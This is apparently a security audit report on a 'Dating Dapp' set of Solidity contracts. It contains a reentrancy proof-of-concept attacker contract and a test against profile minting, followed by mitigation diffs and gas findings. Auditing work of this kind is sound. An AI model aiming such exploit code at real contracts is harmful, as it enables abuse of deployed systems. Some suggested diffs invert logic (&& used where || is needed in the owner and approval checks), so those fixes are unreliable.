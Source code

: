 ## About Dating Dapp

1. Dating Dapp allows users to mint a soulbound NFT as their verified dating profile.
2. Like someone's profile for a cost of 1 ETH - *to express interest*
3. If the like is mutual:-
    - **All previous payments - 10%** fee added to a shared multisig wallet for both to use on the first date.

### Questions
1. Do we allow multiple matches with different other users? or matching is 1:1?

### Assumptions
1. Say 2 profiles A & B have matched. If profile A liked 1 other profile i.e. B, and profile B liked 4 profiles (A included), profile A's balance is 1 ETH and profile B's balance is 4 ETH. Total rewards after matching (before fees) is 5 ETH to be used during the first date. User B spends less than User A.
2. Spending on the date after succesfsul match is not in the scope of the contract yet hence not part of the audit.

### Test Coverage
Quite poor.


| File                        | % Lines        | % Statements   | % Branches    | % Funcs       |
|----------------------------|----------------|----------------|---------------|---------------|
| src/LikeRegistry.sol        | 0.00% (0/34)   | 0.00% (0/34)   | 0.00% (0/15)  | 0.00% (0/5)   |
| src/MultiSig.sol            | 0.00% (0/32)   | 0.00% (0/34)   | 0.00% (0/23)  | 0.00% (0/5)   |
| src/SoulboundProfileNFT.sol | 93.94% (31/33) | 96.55% (28/29) | 55.56% (5/9)  | 83.33% (5/6)  |
| **Total**                   | **31.31%** (31/99) | **28.87%** (28/97) | **10.64%** (5/47) | **31.25%** (5/16) |


## FINDINGS

### [H-1] Reentrancy Attack

The `SoulboundProfileNFT::mintProfile` is vulnerable to some form of reentrancy attack because minting `_safeMint(msg.sender, tokenId);` happens before storing on chain i.e.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```javascript
   /// @notice Mint a soulbound NFT representing the user's profile.
    function mintProfile(string memory name, uint8 age, string memory profileImage) external {
        require(profileToToken[msg.sender] == 0, "Profile already exists");

        uint256 tokenId = ++_nextTokenId;
        // minting done first
@>      _safeMint(msg.sender, tokenId);

        // Store metadata on-chain
        // on-chain storage done here
        _profiles[tokenId] = Profile(name, age, profileImage);
        profileToToken[msg.sender] = tokenId;

        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
    }
```
</details>

A user can misuse the contract by creating multiple profiles as many times as they want potentially **DoS**-ing the contract.

#### Proof Of Code

An attacker craetes a contract to exploit this vulnerability. Since the `SoulboundProfileNFT` uses `_safeMint`, which calls `onERC721Received` on the recipient if the recipient is a contract. This can be exploited by "recursively" called as many times as the attacker wants.

**IMPORTANT** Note the console log statement in the Attacker contract

<details>
<summary> Attack contract code.</summary>

```javascript
contract ReentrancyAttack {
    SoulboundProfileNFT public target;
    string public s_name = "EvilUser";
    uint8 public s_age = 99;
    string public s_image = "ipfs://malicious";

    uint256 public reentryCount;
    uint256 public maxReentries = 3; // To limit attack loop

    constructor(address _target) {
        target = SoulboundProfileNFT(_target);
    }

    function attack() external {
        s_name = string(abi.encodePacked(s_name, (reentryCount)));
        target.mintProfile(s_name, s_age, s_image);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        reentryCount++;
        console.log("REENTRY COUNT:", reentryCount);
        if (reentryCount < maxReentries) {
            target.mintProfile(s_name, s_age, s_image);
        }

        return this.onERC721Received.selector;
    }
}
```
</details>

The test below proves that the contract can be exploited with a ***reentrancy attack***.

<details>
<summary> ReentrancyAttackTest</summary>

```javascript
contract ReentrancyAttackTest is Test {
    SoulboundProfileNFT public target;
    ReentrancyAttack public attacker;

    function setUp() public {
        target = new SoulboundProfileNFT();
        attacker = new ReentrancyAttack(address(target));
    }

    function testReentrancyAttackSucceeds() public {
        attacker.attack();
    }
}
```
</details>

This is a simple way to prove reentrancy occurs. The reentrancy cap is deliberately set to three to limit the number of attacks for test purposes. In a real world scenario an attacker can choose not set the limits potentially DoS-ing the contract.

#### Recommended Mitigation
In `SoulboundProfileNFT::mintProfile`, mint the profile after storing the profile on-chain.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```diff
function mintProfile(string memory name, uint8 age, string memory profileImage) external {
    // @audit gas - create and error for this and use if-revert
    require(profileToToken[msg.sender] == 0, "Profile already exists");

    uint256 tokenId = ++_nextTokenId;
-   _safeMint(msg.sender, tokenId);
+   _profiles[tokenId] = Profile(name, age, profileImage);
+   profileToToken[msg.sender] = tokenId;

    // Store metadata on-chain
-   _profiles[tokenId] = Profile(name, age, profileImage);
-   profileToToken[msg.sender] = tokenId;
+   _safeMint(msg.sender, tokenId);

    emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
}
```
</details>

To be double sure, it's a good idea to add reentrancy guards e.g. `ReentrancyGuard` from openzeppelin.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```diff
# imports
+import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";

+contract SoulboundProfileNFT is ERC721, Ownable, ReentrancyGuard {
-contract SoulboundProfileNFT is ERC721, Ownable {
    # contract code
+    function mintProfile(string memory name, uint8 age, string memory profileImage) external nonReentrant {
-    function mintProfile(string memory name, uint8 age, string memory profileImage) external {
        // @audit gas - create and error for this and use if-revert
        require(profileToToken[msg.sender] == 0, "Profile already exists");

        uint256 tokenId = ++_nextTokenId;
-       _safeMint(msg.sender, tokenId);
+       _profiles[tokenId] = Profile(name, age, profileImage);
+       profileToToken[msg.sender] = tokenId;

        // Store metadata on-chain
-       _profiles[tokenId] = Profile(name, age, profileImage);
-       profileToToken[msg.sender] = tokenId;
+       _safeMint(msg.sender, tokenId);

        emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
}
```
</details>

The `nonReentrant` modifier ensures that the `mintProfile` function cannot be re-entered before the first execution completes, thus preventing reentrancy attacks.

### [H-2] Reentrancy Attack

The `SoulboundProfileNFT::blockProfile` is vulnerable to some form of reentrancy attack because minting `_burn(tokenId);` happens before updating state changes i.e. deleting the profiles.

Since blocking a profile is an action that only the app owner can perform; note the `onlyOwner` modifier, a reentrancy attack surface is minimized.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```javascript
function blockProfile(address blockAddress) external onlyOwner {
    uint256 tokenId = profileToToken[blockAddress];
    // @audit gas - create and error for this and use if-revert
    require(tokenId != 0, "No profile found");

@>  _burn(tokenId);
    delete profileToToken[blockAddress];
    delete _profiles[tokenId];

    emit ProfileBurned(blockAddress, tokenId);
}
```
</details>

#### Recommended Mitigation
Though the contract might not necessarilly be prone to a reentrancy attack, it's good practice to adhere to the CEI pattern.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

```diff
function blockProfile(address blockAddress) external onlyOwner {
    uint256 tokenId = profileToToken[blockAddress];
    // @audit gas - create and error for this and use if-revert
    require(tokenId != 0, "No profile found");

++  delete profileToToken[blockAddress];
++  delete _profiles[tokenId];
-    _burn(tokenId);
--  delete _profiles[tokenId];
--  delete profileToToken[blockAddress];

+    _burn(tokenId);
    emit ProfileBurned(blockAddress, tokenId);
}
```
</details>

### [H-3] Reentrancy Attack

The `SoulboundProfileNFT::burnProfile` is vulnerable to some form of reentrancy attack because minting `_burn(tokenId);` happens before updating state changes i.e. deleting the profiles.

Since blocking a profile is an action that only the app owner can perform; `require(ownerOf(tokenId) == msg.sender, "Not profile owner");` check restricts its execution to the profile owner hence a reentrancy attack surface is minimized.

<details>
<summary> SoulboundProfileNFT::burnProfile file.</summary>

```javascript
function burnProfile() external {
    uint256 tokenId = profileToToken[msg.sender];
    require(tokenId != 0, "No profile found");
    require(ownerOf(tokenId) == msg.sender, "Not profile owner");

@>  _burn(tokenId);
    delete profileToToken[msg.sender];
    delete _profiles[tokenId];

    emit ProfileBurned(msg.sender, tokenId);
}
```
</details>

#### Recommended Mitigation
Though the contract might not necessarilly be prone to a reentrancy attack, it's good practice to adhere to the CEI pattern.

<details>
<summary> SoulboundProfileNFT::burnProfile file.</summary>

```diff
function burnProfile() external {
    uint256 tokenId = profileToToken[msg.sender];
    require(tokenId != 0, "No profile found");
    require(ownerOf(tokenId) == msg.sender, "Not profile owner");

+   delete profileToToken[msg.sender];
+   delete _profiles[tokenId];

-   _burn(tokenId);
-   delete profileToToken[msg.sender];
-   delete _profiles[tokenId];

+   _burn(tokenId);
    emit ProfileBurned(msg.sender, tokenId);
}
```

<!-- ### [H-2] Reentrancy Attack 2

The `MultiSigWallet::executeTransaction` function by itself is not vulnerable to reentrancy attack because it adheres to Checks Effects and Interaction(CEI) pattern because contract state is updated before making external calls.

**But**, note that event emmission i.e.

```javascript
emit TransactionExecuted(_txId, txn.to, txn.value);
```

happens after the external call i.e.
```javascript
(bool success,) = payable(txn.to).call{value: txn.value}("");
require(success, "Transaction failed");
```

While emitting an event after the transfer isn’t inherently unsafe, the real issue is, if reentrancy occurs during the `call{value: ...}` before the logic has fully completed and before any further protective state changes, the contract can be exploited if other parts of the contract are not reentrancy-safe.

<details>
<summary> SoulboundProfileNFT::mintProfile file.</summary>

However, the txn.to address, i.e. `(bool success,) = payable(txn.to).call{value: txn.value}("");` *(which is the recipient)* is an external contract and potentially a malicious one.

The `txn.to` contract’s receive() or fallback() function could re-enter this contract, or call another function — potentially one that is not reentrancy-protected. Since your contract is still mid-execution, it might not be in a fully safe state yet.

```javascript
function executeTransaction(uint256 _txId) external onlyOwners {
    require(_txId < transactions.length, "Invalid transaction ID");
    Transaction storage txn = transactions[_txId];
    require(!txn.executed, "Transaction already executed");
    require(txn.approvedByOwner1 && txn.approvedByOwner2, "Not enough approvals");

    txn.executed = true;
    (bool success,) = payable(txn.to).call{value: txn.value}("");
    require(success, "Transaction failed");

    emit TransactionExecuted(_txId, txn.to, txn.value);
}
```
</details>

#### Proof Of Code


<details>
<summary> Attack contract code.</summary>

```javascript

```
</details>

<details>
<summary></summary>

```javascript
```
</details>


#### Recommended Mitigation


<details>
<summary></summary>

```diff

```
</details> -->

## Gas
### [G-1]
Use of require statements for error handling is not gas efficient


#### Description

In `MultiSigWallet`, `LikeRegistry` and `SoulboundProfileNFT` contracts, there is use of `require` statements for error handling. A more gas efficient way to handle this is declare errors at the top of the contract and use `if` statements to check if error causing situations occur.

**Instances**

<details>
<summary> MultiSigWallet contract</summary>

```javascript
constructor(address _owner1, address _owner2) {
@>  require(_owner1 != address(0) && _owner2 != address(0), "Invalid owner address");
@>  require(_owner1 != _owner2, "Owners must be different");
    owner1 = _owner1;
    owner2 = _owner2;
}

function approveTransaction(uint256 _txId) external onlyOwners {
@>  require(_txId < transactions.length, "Invalid transaction ID");
    Transaction storage txn = transactions[_txId];
@>  require(!txn.executed, "Transaction already executed");

    if (msg.sender == owner1) {
        if (txn.approvedByOwner1) revert AlreadyApproved();
        txn.approvedByOwner1 = true;
    } else {
        if (txn.approvedByOwner2) revert AlreadyApproved();
        txn.approvedByOwner2 = true;
    }

    emit TransactionApproved(_txId, msg.sender);
}

function executeTransaction(uint256 _txId) external onlyOwners {
@>  require(_txId < transactions.length, "Invalid transaction ID");
    Transaction storage txn = transactions[_txId];
@>  require(!txn.executed, "Transaction already executed");
@>  require(txn.approvedByOwner1 && txn.approvedByOwner2, "Not enough approvals");

    txn.executed = true;
    (bool success,) = payable(txn.to).call{value: txn.value}("");
@>  require(success, "Transaction failed");

    emit TransactionExecuted(_txId, txn.to, txn.value);
}
```
</details>

<details>
<summary> LikeRegistry contract</summary>

```javascript
function likeUser(address liked) external payable {
@>  require(msg.value >= 1 ether, "Must send at least 1 ETH");
@>  require(!likes[msg.sender][liked], "Already liked");
@>  require(msg.sender != liked, "Cannot like yourself");
@>  require(profileNFT.profileToToken(msg.sender) != 0, "Must have a profile NFT");
@>  require(profileNFT.profileToToken(liked) != 0, "Liked user must have a profile NFT");

    likes[msg.sender][liked] = true;
    emit Liked(msg.sender, liked);

    // Check if mutual like
    if (likes[liked][msg.sender]) {
        matches[msg.sender].push(liked);
        matches[liked].push(msg.sender);
        emit Matched(msg.sender, liked);
        matchRewards(liked, msg.sender);
    }
}

function matchRewards(address from, address to) internal {
    // more code on matchRewards
    (bool success,) = payable(address(multiSigWallet)).call{value: rewards}("");
@>  require(success, "Transfer failed");
}

function withdrawFees() external onlyOwner {
@>  require(totalFees > 0, "No fees to withdraw");
    uint256 totalFeesToWithdraw = totalFees;

    totalFees = 0;
    (bool success,) = payable(owner()).call{value: totalFeesToWithdraw}("");
@>  require(success, "Transfer failed");
}
```
</details>

<details>
<summary> SoulboundProfileNFT contract</summary>

```javascript
function mintProfile(string memory name, uint8 age, string memory profileImage) external {
    // @audit gas - create and error for this and use if-revert
@>  require(profileToToken[msg.sender] == 0, "Profile already exists");

    uint256 tokenId = ++_nextTokenId;
    _safeMint(msg.sender, tokenId);

    // Store metadata on-chain
    _profiles[tokenId] = Profile(name, age, profileImage);
    profileToToken[msg.sender] = tokenId;

    emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
}

function burnProfile() external {
    uint256 tokenId = profileToToken[msg.sender];
@>  require(tokenId != 0, "No profile found");
@>  require(ownerOf(tokenId) == msg.sender, "Not profile owner");

    _burn(tokenId);
    delete profileToToken[msg.sender];
    delete _profiles[tokenId];

    emit ProfileBurned(msg.sender, tokenId);
}

function blockProfile(address blockAddress) external onlyOwner {
    uint256 tokenId = profileToToken[blockAddress];
    // @audit gas - create and error for this and use if-revert
@>  require(tokenId != 0, "No profile found");

    _burn(tokenId);
    delete profileToToken[blockAddress];
    delete _profiles[tokenId];

    emit ProfileBurned(blockAddress, tokenId);
}
```
</details>

#### Recommended Mitigation


<details>
<summary> MultiSigWallet contract</summary>

```diff
// declare errors here
error InvalidOwnerAddress();
error TwoDistinctOwnersMustSign();
error InvalidTransactinoId();
error TransactionAlreadyExecuted();
error NotEnoughApprovals();
error TransactionFailed();

constructor(address _owner1, address _owner2) {
-   require(_owner1 != address(0) && _owner2 != address(0), "Invalid owner address");
+   if(_owner1 == address(0) && _owner2 == address(0)) {
+       revert InvalidOwnerAddress();
+   }
-   require(_owner1 != _owner2, "Owners must be different");
+   if(_owner1 == _owner2) {
+       revert TwoDistinctOwnersMustSign();
+   }
    owner1 = _owner1;
    owner2 = _owner2;
}

function approveTransaction(uint256 _txId) external onlyOwners {
-   require(_txId < transactions.length, "Invalid transaction ID");
+   if(_txId >= transactions.length) {
+       revert InvalidTransactinoId();
+   }
    Transaction storage txn = transactions[_txId];
-   require(!txn.executed, "Transaction already executed");
+   if(txn.executed) {
+       revert TransactionAlreadyExecuted();
+   }
    if (msg.sender == owner1) {
        if (txn.approvedByOwner1) revert AlreadyApproved();
        txn.approvedByOwner1 = true;
    } else {
        if (txn.approvedByOwner2) revert AlreadyApproved();
        txn.approvedByOwner2 = true;
    }

    emit TransactionApproved(_txId, msg.sender);
}

function executeTransaction(uint256 _txId) external onlyOwners {
-   require(_txId < transactions.length, "Invalid transaction ID");
+   if(_txId >= transactions.length) {
+       revert InvalidTransactinoId();
+   }
    Transaction storage txn = transactions[_txId];
-   require(!txn.executed, "Transaction already executed");
+   if(txn.executed) {
+       revert TransactionAlreadyExecuted();
+   }
-   require(txn.approvedByOwner1 && txn.approvedByOwner2, "Not enough approvals");
+   if(!txn.approvedByOwner1 && !txn.approvedByOwner2) {
+       revert NotEnoughApprovals();
+   }
    txn.executed = true;
    (bool success,) = payable(txn.to).call{value: txn.value}("");
-   require(success, "Transaction failed");
+   if(!success) {
+       revert TransactionFailed();
+   }
    emit TransactionExecuted(_txId, txn.to, txn.value);
}
```
</details>

<details>
<summary> LikeRegistry contract</summary>

```diff
// declare errors here
error MustSendOneEth();
error ProfileAlreadyLiked();
error CannotLikeOwnProfile();
error LikerMustAlreadyHaveAProfile();
error LikedUserMustAlreadyHaveAProfile();
error NotEnoughFundsToWithdraw();
error TransactionFailed();

function likeUser(address liked) external payable {
-  require(msg.value >= 1 ether, "Must send at least 1 ETH");
+  if(msg.value < 1 ether) {
+      revert MustSendOneEth();
+  }

-  require(!likes[msg.sender][liked], "Already liked");
+  if(likes[msg.sender][liked]) {
+      revert ProfileAlreadyLiked();
+  }

-  require(msg.sender != liked, "Cannot like yourself");
+  if(msg.sender == liked) {
+      revert CannotLikeOwnProfile();
+  }

-  require(profileNFT.profileToToken(msg.sender) != 0, "Must have a profile NFT");
+  if(profileNFT.profileToToken(msg.sender) == 0) {
+      revert LikerMustAlreadyHaveAProfile();
+  }

-  require(profileNFT.profileToToken(liked) != 0, "Liked user must have a profile NFT");
+  if(profileNFT.profileToToken(liked) == 0) {
+      revert LikedUserMustAlreadyHaveAProfile();
+  }

    likes[msg.sender][liked] = true;
    emit Liked(msg.sender, liked);

    // Check if mutual like
    if (likes[liked][msg.sender]) {
        matches[msg.sender].push(liked);
        matches[liked].push(msg.sender);
        emit Matched(msg.sender, liked);
        matchRewards(liked, msg.sender);
    }
}

function matchRewards(address from, address to) internal {
    // more code on matchRewards
    (bool success,) = payable(address(multiSigWallet)).call{value: rewards}("");
-   require(success, "Transfer failed");
+  if(!success) {
+      revert TransactionFailed();
+  }
}

function withdrawFees() external onlyOwner {
-   require(totalFees > 0, "No fees to withdraw");
+  if(totalFees == 0) {
+      revert NotEnoughFundsToWithdraw();
+  }
    uint256 totalFeesToWithdraw = totalFees;

    totalFees = 0;
    (bool success,) = payable(owner()).call{value: totalFeesToWithdraw}("");
-   require(success, "Transfer failed");
+  if(!success) {
+      revert TransactionFailed();
+  }
}
```
</details>

```diff
// declare errors here
error ProfileAlreadyExists();
error ProfileNotFound();
error CannotLikeOwnProfile();
error LikerMustAlreadyHaveAProfile();
error LikedUserMustAlreadyHaveAProfile();
error NotEnoughFundsToWithdraw();
error TransactionFailed();

function mintProfile(string memory name, uint8 age, string memory profileImage) external {
    // @audit gas - create and error for this and use if-revert
-   require(profileToToken[msg.sender] == 0, "Profile already exists");
+   if(profileToToken[msg.sender] != 0) {
+       revert ProfileAlreadyExists();
+   }

    uint256 tokenId = ++_nextTokenId;
    _safeMint(msg.sender, tokenId);

    // Store metadata on-chain
    _profiles[tokenId] = Profile(name, age, profileImage);
    profileToToken[msg.sender] = tokenId;

    emit ProfileMinted(msg.sender, tokenId, name, age, profileImage);
}

function burnProfile() external {
    uint256 tokenId = profileToToken[msg.sender];
-   require(tokenId != 0, "No profile found");
+   if(tokenId == 0) {
+       revert ProfileNotFound();
+   }

    _burn(tokenId);
    delete profileToToken[msg.sender];
    delete _profiles[tokenId];

    emit ProfileBurned(msg.sender, tokenId);
}

function blockProfile(address blockAddress) external onlyOwner {
    uint256 tokenId = profileToToken[blockAddress];
-   require(tokenId != 0, "No profile found");
+   if(tokenId == 0) {
+       revert ProfileNotFound();
+   }

    _burn(tokenId);
    delete profileToToken[blockAddress];
    delete _profiles[tokenId];

    emit ProfileBurned(blockAddress, tokenId);
}
```
</details>

## Information

### [I-1]
The contracts `src/LikeRegistry.sol`, `src/MultiSig.sol` and `src/SoulboundProfileNFT.sol` use solidity version `^0.8.19` that has some known servere issues like:-

- VerbatimInvalidDeduplication
- FullInlinerNonExpressionSplitArgumentEvaluationOrder
- MissingSideEffectsOnSelectorAccess.

#### Recommended Mitigation
use later solidity versions like `0.8.23` that has patched fixes for these issues.

### [I-2]
The contracts `LikeRegistry::profileNFT` should be set to immutable because it's not changed anywhere else after deployment. Immutable variables are also more gas efficient.

#### Recommended Mitigation
Make `LikeRegistry::profileNFT` immutable i.e.

```javascript
contract LikeRegistry is Ownable {
    struct Like {
        address liker;
        address liked;
        uint256 timestamp;
    }

    SoulboundProfileNFT public immutable profileNFT;
    // more contract code
}
```

### [I-3]
The documentation states that each profile like costs `1 eth` but the require statement in `LikeRegistry::likeUser`, i.e. `require(msg.value >= 1 ether, "Must send at least 1 ETH");` checks that `msg.value` must be greater or equal to `1 ether`.

#### Question
Specify which is right.
